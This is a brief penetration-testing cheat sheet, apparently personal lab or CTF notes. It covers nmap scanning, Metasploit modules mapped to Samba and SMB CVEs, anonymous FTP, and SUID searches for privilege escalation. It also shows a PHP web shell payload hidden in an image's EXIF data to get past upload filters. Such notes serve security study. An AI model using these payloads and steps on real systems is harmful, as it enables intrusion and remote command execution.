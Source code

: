# Recon
Scan aggresivly on all ports with OS detection, version detection, script scanning and traceroute and write to file
```
nmap -p- -T4 -oN <outfile> -A <IP>
```

# Metasploit
local_exploit_suggester is really helpfull, but only on x86

## Correlation

Service | CVE | MSF-Module
--- | --- | ---
Samba 3.0.20 | [CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447) | exploit/multi/samba/usermap_script
Windows <7| [CVE-2008-4250](https://nvd.nist.gov/vuln/detail/CVE-2008-4250) | exploit/windows/smb/ms08_067_netapi


# FTP
Try 
```
ftp <ip>
```
and use "anonymous" as name.

# Local Priv Esc
https://gtfobins.github.io/

# File-Filter-Busting

```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lo.jpg

Exiftool is a great tool to view and manipulate exif-data. Then I had to rename the file

mv lo.jpg lo.php.jpg
```
https://github.com/xapax/security/blob/master/bypass_image_upload.md


# Interactive Python pty
`python3 -c 'import pty; pty.spawn("/bin/sh")'`


# Sticky-Bit
```
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
```

# Exploit via Path if SUID-Binary does not use full path
https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/
